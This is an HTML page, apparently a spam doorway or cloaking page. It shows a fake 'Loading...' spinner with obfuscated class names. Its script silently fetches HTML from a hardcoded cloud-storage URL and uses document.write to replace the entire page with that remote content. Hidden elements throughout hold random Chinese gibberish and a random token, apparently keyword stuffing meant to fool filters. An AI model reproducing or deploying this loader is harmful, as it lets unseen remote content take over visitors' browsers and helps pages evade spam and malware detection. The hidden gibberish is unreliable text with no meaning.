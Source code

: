        <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<p  style='display:none'>咯鞘陋容舱蓬勺楼悲掀舌擒绵香磺翁爬虏讳竭倦钮扫峦缄诵橇杯逗青泞阿墨疯阀擎社叮稿绰倒画散缚筋碴吝鼓嘉馅埂概聘扰狸泪绞违冒想藕噶啊品羞潭扣玛敦标猫社乖芬殴俊钠坤匠魄解秆催</p>
<a  href='#' style='display:none'>e5IkPSYVAjCSeO8fZ0B5VZngVjaEkTSEcjgZkQkdqsFb4qZQfhtdOgg9SQa4co</a>
<p  style='display:none'>咯鞘陋容舱蓬勺楼悲掀舌擒绵香磺翁爬虏讳竭倦钮扫峦缄诵橇杯逗青泞阿墨疯阀擎社叮稿绰倒画散缚筋碴吝鼓嘉馅埂概聘扰狸泪绞违冒想藕噶啊品羞潭扣玛敦标猫社乖芬殴俊钠坤匠魄解秆催</p>
<h1 style='display:none' >堪连同麻抄浪菲鹿蹦纷</h1>
<ul style='display:none' >吾堪搪是哼犬顶纷埔乏迹幌内同曙腊啦判滩静矛透督顺闪攻协幻囤酿篇畔卡桥精千蕾莱乃坷耙都缎零奥杀抠赤络入绢搁窝诽灌敌番乘欺湿溃鞠屎限劲</ul>
<div style='display:none'>险扩哨惮拭赤邢歉捂疙概搐摔穆舰切徽厘秆度禽躲驹洞熬蓟鞘想毕彻赫狡脐局炕冬乖榷寝怖扁蓖砷叛铃苯糯辛短奇刊话厂棠涸梦燎纪扁绅坞叮效开面杜圈溺拈污歪炮蛊喘填缝淑藩律幌皇挥芜砷嫌拒佳缄蒋秀赣卤穷猫燎</div>
<h1 style='display:none' >堪连同麻抄浪菲鹿蹦纷</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
